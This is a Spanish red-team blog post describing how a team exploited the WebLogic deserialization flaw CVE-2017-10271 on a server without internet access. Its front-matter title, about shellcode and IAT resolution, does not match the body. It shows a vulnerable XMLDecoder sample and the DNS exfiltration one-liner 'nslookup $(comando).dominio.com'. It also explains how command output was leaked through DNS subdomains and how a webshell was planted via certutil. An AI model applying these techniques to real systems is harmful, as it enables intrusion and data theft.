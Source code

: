 ```yaml
---
title: "[Shellcode development] Resolve function address using IAT instead of EAT - Part 1"
header:
  teaser: "https://farm5.staticflickr.com/4076/4940499208_b79b77fb0a_z.jpg"
categories: 
  - ES
tags:
  - ES
  - Red Team
  - Shellcode
  - Windows PE format
  - IAT
  - Malware
author: Alejandro Pinna
gallery:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/lines.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/lines.png
            alt: "Peticion Lineas"
            title: "Contador de caracteres por DNS"
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns.png
            alt: "Respuesta Lineas"
            title: "Respuesta al XML que exfiltra dicha información"
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/intruder.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/intruder.png
            alt: "Respuesta Lineas"
            title: "Respuesta al XML que exfiltra dicha información"
gallery2:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/exfil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/exfil.png
            alt: "Peticion Lineas"
            title: "Contador de caracteres por DNS"
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns_exfil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns_exfil.png
            alt: "Respuesta Lineas"
            title: "Respuesta al XML que exfiltra dicha información"
gallery3:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/shell_dns.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/shell_dns.png
            alt: "Shell DNS"
            title: "Shell DNS"
---
```



Durante uno de los test de intrusión llevados a cabo por el equipo de Red Team, en el cual se trataba de lograr acceso a la red de una organización,
haciendo uso de alguna vulnerabilididad en el perimetro, y sin ningún tipo de conocimiento previo de la misma, se tuvo que
explotar la hasta ahora poco conocidad vulnerabilidad CVE-2017-10271 en Weblogic.

## La vulnerabilidad

La vulnerabilidad se encuentra en la ruta /wls-wsat/CoordinatorPortType y se produce debido a que la clase **WorkContextXmlInputAdapter.class** utiliza
el XML que le introducimos sin ningún tipo de comprobación previa, pasandoselo a la funcion **readObject**, la cual al deserializar dicho xml provoca la
ejecución remota de código.

A continuación dejamos un articulo de referencia, donde se explican este tipo de vulnerabilidades en profundidad. 

<http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html>

A continuación podremos observar un código que posee la misma vulnerabilidad que weblogic, aunque es mucho mas sencillo de comprender en el siguiente
escenario.

```java
    public static void main(String[] args) {
        java.io.File file = new java.io.File ( "C:\\Users\\Administrador\\Desktop\\poc.txt" );
        java.beans.XMLDecoder xd = null ;
        try {
            xd = new java.beans.XMLDecoder ( new BufferedInputStream ( new FileInputStream (file)));
        } catch (FileNotFoundException e) {
            e.printStackTrace ();
        }
        Object s2 = xd.readObject ();
        xd.close ();
}
```

Como podemos observar, el fichero contendrá código xml el cual será parseado por java.beans.XMLDecoder y nos devolverá un objeto, que sera
deserializado por la función java.beans.XMLDecoder.readObject, y que producirá la ejecución remota de código.

En el caso de Weblogic la vulnerabilidad es muy similar.

Para comprobar si un Weblogic es efectivamente vulnerable, hemos de buscar excepciones no controladas de Java al enviarlo XMLs con java embebido mediante una petición POST a la ruta **/wls-wsat/CoordinatorPortType** como se muestra a continuación.

![Respuesta devuelta por sistemas vulnerables]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta-sistemas-vulnerables.png)

En este blog no tenemos como objetivo cubrir los detalles sobre la vulnerabilidad dado que estos han sido cubiertos en muchos otros articulos
publicados hasta el momento, sino que pretendemos mostrar como esta vulnerabilidad podría ser explotada incluso en entornos restringidos los cuales no
poseen salida a internet, y al tratarse de una ejecución de código en la cual no es observable la salida de lo ejecutado, otros métodos han tenido que
ser desarrollados.


## Explotación

Para llevar a cabo la explotación, el primer paso fue comprobar si los sistemas que el equipo había identificado eran efectivamente vulnerables, para
lo cual se realizó un script, que envia un XML usando java, y que posteriormente comprueba si la respuesta de la aplicación web mostraba que
efectivamente era vulnerable, o si por el contrario las aplicaciones estaban parcheadas.

Tras algunos intentos el equipo detecto un weblogic vulnerable, por lo que se procedió a explotar la vulnerabilidad.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

En un primer intento, el equipo comprobó si la máquina tenía salida a internet, aunque se detecto que no.

Tras esto, se detecto que la máquina no tenía binarios como sleep, por lo que realizar una inyeccion de comandos basada en tiempos quedaba
completamente descartado, por lo que se buscaron otros metodos para realizar esta explotación.

Trás numerosas pruebas se detectó que la máquina tenía configurado un DNS interno, el cual al recibir peticiones hacia dominios de burpcollaborator
realizaba dichas peticiones, lo cual permitiría exfiltrar cierta información usando los subdominios para incrustar en ellos la información que ibamos
exfiltrando de la máquina.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/dns.png)

A partir de este punto se comenzó a desarrollar un xml que permitiera exfiltrar la salida de los comandos ejecutados por DNS, lo cual en otros
entornos es mucho más simple, usando la técnica **nslookup $(comando).dominio.com**, pero en este caso, tras ciertas pruebas se comprobó que dichos
comandos no funcionarían, dado que el weblogic corría sobre un servidor windows, por lo tanto este metodo fue implementado en java, usando un metodo
para ejecutar comandos, leer cada linea, y posteriormente usar dichas lineas como variables, enviandolos como subdominios en las peticiones DNS.
Este proceso fue en parte automatizado haciendo uso de BurpSuite, más concretamente, usando una configuración del Intruder para recibir en cada respuesta DNS 
la linea leida y el numero de caracteres.

{% include gallery %}

Como se puede observar la explotación constaba, no solo de exfiltrar los comandos por DNS, sino que fue necesario desarrollar un metodo para contar el
número de caracteres que devolvía cada comando, dado que no se pueden incluir más de 64 caracteres en un subdominio, por lo que con esta petición se
contaban los caracteres de cada linea sobre los comandos ejecutados.
Posteriormente se realizaba la exfiltración de los caracteres en si, haciendo uso de las funciones java.lang.String.replace y java.lang.String.substr 
para reemplazar caracteres especiales, y exfiltrar tan solo el número de caracteres permitidos, como se muestra a continuación.

{% include gallery id="gallery2" %}

Este proceso permitió ir conociendo la estructura de ficheros del servidor, el usuario que ejecutaba la aplicación, comprobar los privilegios con los
que se contaban, etc.

Poco a poco se fue desarrollando un automatismo que permitía recibir las respuestas en un servidor dns escrito en python, el cual tenía un
comportamiento cercano a una shell inversa, como se muestra a continuación.

{% include gallery id="gallery3" %}


Utilizando estos automatismos el equipo fue capaz de encontrar un directorio escribible en el cual se podían subir ficheros para ser posteriormente
ejecutados por la aplicación web (webshell).

En este punto el equipo tuvo que desarrollar un metodo para subir una webshell sin poder utilizar caracteres como 
` > | `

Trás investigar durante un tiempo aplicaciones instaladas en un Windows Server por defecto que permitieran encodear y decodear base64 
mediante un solo comando se utilizó la utilidad **certutil**, la cual permite decodear el contenido de un fichero, y volcarlo en un nuevo fichero.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png)

Usando este metodo se consiguió obtener una webshell en dicho servidor, y por tanto un vector de acceso limpio en la organización.





